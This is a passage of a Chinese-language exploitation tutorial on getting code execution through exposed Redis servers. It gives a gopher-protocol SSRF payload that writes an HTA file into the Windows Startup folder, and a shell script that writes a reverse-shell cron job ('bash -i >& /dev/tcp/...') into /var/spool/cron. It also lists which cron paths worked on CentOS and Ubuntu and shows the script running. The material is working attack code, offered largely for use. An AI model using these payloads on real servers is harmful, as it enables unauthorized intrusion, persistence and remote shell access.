 ```
< 2020/07/23 16:00:40.500366  length=52 from=0 to=51
-ERR Changing directory: No such file or directory\r
```

得到gopher协议payload，

```shell
# xiaopo @ fht in ~/python/POC/ssrf [16:08:46] 
$ python tran2gopher.py socat_windows_startup.log
*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$92%0d%0a%0a%0a<SCRIPT Language="JScript">new ActiveXObject("WScript.Shell").run("calc.exe");</SCRIPT>%0a%0a%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$60%0d%0aC:/ProgramData/Microsoft/Windows/Start Menu/Programs/StartUp%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$13%0d%0aredis_rce.hta%0d%0a*1%0d%0a$4%0d%0asave%0d%0a*1%0d%0a$4%0d%0aquit%0d%0a
```

然后还需对上面内容的特殊字符进行url编码，比如%，因为ssrf利用经过了两个协议（先http后gopher），最终payload触发，
![/data/typora_assets/redis/image-20200723164207035.png](https://i.loli.net/2020/07/24/TqmCQrOR6ZE8gVh.png)

### Linux

以下三种利用方式都需要有写文件权限（这不废话），需要redis以root权限运行。
redis原始信息

```shell
[root@localhost redis]# redis-cli 
127.0.0.1:6379> config get dir
1) "dir"
2) "/var/lib/redis"
127.0.0.1:6379> config get dbfilename
1) "dbfilename"
2) "dump.rdb"
127.0.0.1:6379> get 1
"\n\n12345\n"
```

#### crontab

定时任务目录
```shell
centos:
/var/spool/cron/root # centos系统下root用户的cron文件，实际测试成功。
/etc/crontab # 该位置的payload需要加root，实际测试成功。
/etc/cron.d/* # 将利用这个目录，可以做到不覆盖任何其他文件的情况进行反弹shell，实际测试成功。

ubuntu：
/var/spool/cron/crontabs/root # debian系统下root用户的cron文件，实际测试不能成功反弹shell。
/etc/crontab # 该位置的payload需要加root，实际测试不能成功反弹shell。
/etc/cron.d/* # 利用这个目录，可以做到不覆盖任何其他文件的情况进行反弹shell，实际测试不能成功反弹shell。
```
getshell_crontab.sh内容如下，
```shell
echo -e "\n\n* * * * * bash -i >& /dev/tcp/127.0.0.1/2333 0>&1\n\n"|redis-cli -h $1 -p $2 -x set 1
redis-cli -h $1 -p $2 config set dir /var/spool/cron/  # 指定本地数据库存放目录
redis-cli -h $1 -p $2 config set dbfilename root  # 指定本地数据库文件名，默认值为dump.rdb
redis-cli -h $1 -p $2 save
redis-cli -h $1 -p $2 quit
```
注意：有些系统对 crontab 的文件内容的校验比较严格可能会导致无法执行定时任务，以上代码在centos7下测试成功，
```shell
[root@localhost redis]# bash getshell_crontab.sh 127.0.0.1 6379
OK
OK
OK
OK
OK

```